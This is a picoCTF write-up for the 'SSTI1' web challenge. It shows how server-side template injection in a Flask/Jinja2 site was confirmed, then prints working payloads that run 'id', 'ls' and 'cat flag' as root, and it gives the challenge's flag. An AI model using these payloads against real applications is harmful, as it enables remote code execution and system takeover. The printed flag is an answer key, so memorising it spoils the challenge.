




# PicoCTF Write-up: SSTI1

**Category:** Web Exploitation  
**Tags:** SSTI, RCE, Python, Flask  
**Author:** B@chHa

---

## 1. Challenge Description

I made a cool website where you can announce whatever you want! Try it out!

I heard templating is a cool and modular way to build web apps! Check out my website here!

---

## 2. Reconnaissance

I started by analyzing the technology stack of the target website. Using **Wappalyzer**, I identified that the application is built using **Python** and the **Flask Framework**.



Since Flask typically uses **Jinja2** as its templating engine, I suspected that user input might be directly concatenated into templates without proper sanitization. This indicates a potential **Server-Side Template Injection (SSTI)** vulnerability.

---

## 3. Exploitation

### Step 1: Vulnerability Verification

To confirm the vulnerability, I injected a basic mathematical payload: `{{7*7}}`.

The server returned `49`. This confirms that the server is evaluating the code inside the curly braces instead of rendering it as plain text, proving the existence of SSTI.

### Step 2: Remote Code Execution (RCE)

Instead of manually traversing subclasses to find the `os` module, I used the Flask `request` object to access global built-ins. This allowed me to import `os` and execute system commands.

I used the following payload to check the current user identity:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

**Result:** The server returned the following output:



The `uid=0(root)` response confirms that I have achieved RCE with root privileges, giving me full control over the system.

---

## 4. Capture The Flag

With root access, I listed the files in the current directory to locate the flag using `ls -la`:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}
```

The output revealed a file named `flag`:



Finally, I used the `cat` command to read the content:

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```



**Flag Retrieved:**

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_4675f3fa}
```


